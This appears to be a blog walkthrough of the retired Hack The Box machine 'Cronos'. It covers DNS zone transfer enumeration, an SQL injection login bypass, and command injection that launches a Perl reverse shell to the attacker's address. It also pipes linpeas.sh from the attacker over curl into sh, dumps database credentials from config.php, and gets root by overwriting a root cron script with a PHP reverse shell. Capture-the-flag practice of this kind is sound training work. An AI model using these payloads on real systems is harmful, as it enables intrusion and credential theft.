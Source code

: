 ```yaml
---
layout: post
title: "HTB-Cronos"
date: 2020-02-16 18:22:00 +0000
categories: HTB-Walkthrough
---
```


![cronos](/assets/img/cronos.png)

One of my favourite boxes this one...

`nmap -sV -Pn --min-rate 10000 |tee -a cronos.txt`

```

Nmap scan report for 10.10.10.13
Host is up (0.094s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We see port 53 running, lets enumerate it...


<h3>Domain Enumeration</h3>

```

root@kali:~/HTB/retired/cronos# nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.

```

We can add cronos.htb to our /etc/hosts file.

Lets dig a little deeper...

`dig -axfr cronos.htb @10.10.10.13`

```

; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 92 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Fri Jan 24 20:42:44 EST 2020
;; XFR size: 7 records (messages 1, bytes 203)

```

lets take a look now at http://admin.cronos.htb

Its a login page...
We can try some well known weak credentials, they fail so lets try sqli login bypass

In the username field type 

```

admin 'or 1=1# 

```

sometimes blank password is ok, sometimes random input is required.
Splendid, this gets us into the tracert webpage....we can try to inject commands here....

use ; to add command after the ping one; for example:

```

8.8.8.8;perl -e 'use Socket;$i="10.10.14.19";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

the perl reverse shell works! we catch the reverse shell on 
`nc -nlvp 6969`

##########################


<h3>Privilege Escalation</h3>

Taking a look around we know there's always goodies in the config.php file if its available...

```

$ cat config.php                                                                                                   
<?php                                                                                                              
   define('DB_SERVER', 'localhost');                                                                               
   define('DB_USERNAME', 'admin');                                                                                 
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');                                                                   
   define('DB_DATABASE', 'admin');                                                                                 
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE); 

```

This may be very useful, we can check the mysql database to see if we can find any other creds.

```

$ mysql -u admin -p
Enter password: kEjdbRigfBHUREiNSDs
use admin  
;
show tables;
select * from users;
quit
Tables_in_admin
users
id      username        password
1       admin   4f5fffa7b2340178a716e3832451e058
$ 

```

[g0tmi1k's linux privilege escalation guide is the Bible of linux enum](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/),

one of the first commands I always run (after `sudo -l` and `sudo su`) is
`find / -perm -u=s -type f 2>/dev/null`

```

find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
/bin/ntfs-3g
/bin/ping6
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/passwd

```

Its important to become well practiced in the techniqes, methods and commands g0tmilk covers. For convenience many folk suppliment this knowlege with using enumeration scripts.
Theres a few good ones out there, [LinEnum.sh](https://github.com/rebootuser/LinEnum) is a good comprehensive one, but the one ive started using first recently is [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

We can use curl (when available on targets) to run the enumeration from our attacking machine.

```

curl 10.10.14.19/linpeas.sh |sh |tee -a enum.txt

```

...so we dont even upload the file to the target...neat trick...

Whilst increasingly becomming my goto method of enum, when the conditions allow, its not actually needed here; the way forward is practically right in front of us.

In /var/www/laravel there is an interesting file called 'artisan'.
Looking at our enum.txt output from linpeas.sh we find that cronjob run by root executes it.

our wwwdata user has write privileges in the www folder, so we can replace with evil.php get rootshell....
the php reverse shell can be downloaded from pentestmonkey's website, but its also available in /usr/share/webshells/
we just need to modify the lhost and port settings.

There's a few ways we can get the file to the target... we can copy'n'paste it into vi, we can use `wget` or `curl -O`

```

root@kali:~/HTB/retired/cronos# nc -nlvp 31337
listening on [any] 31337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.13] 56894
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:38:01 up  2:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cat /home/*/user.txt
51xxxxxxxxxxxxxxxxxxxxxxxxxxxx3b
# cat /root/root.txt
1xxxxxxxxxxxxxxxxxxxxxxxxxxxxxa0

```

#############################################

Exploiting suid files to escalate privileges is an important technique to practice and remember to look out for,
it will often be the best (and sometimes only) way to get root. 
[Check out this article for a good explaination](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
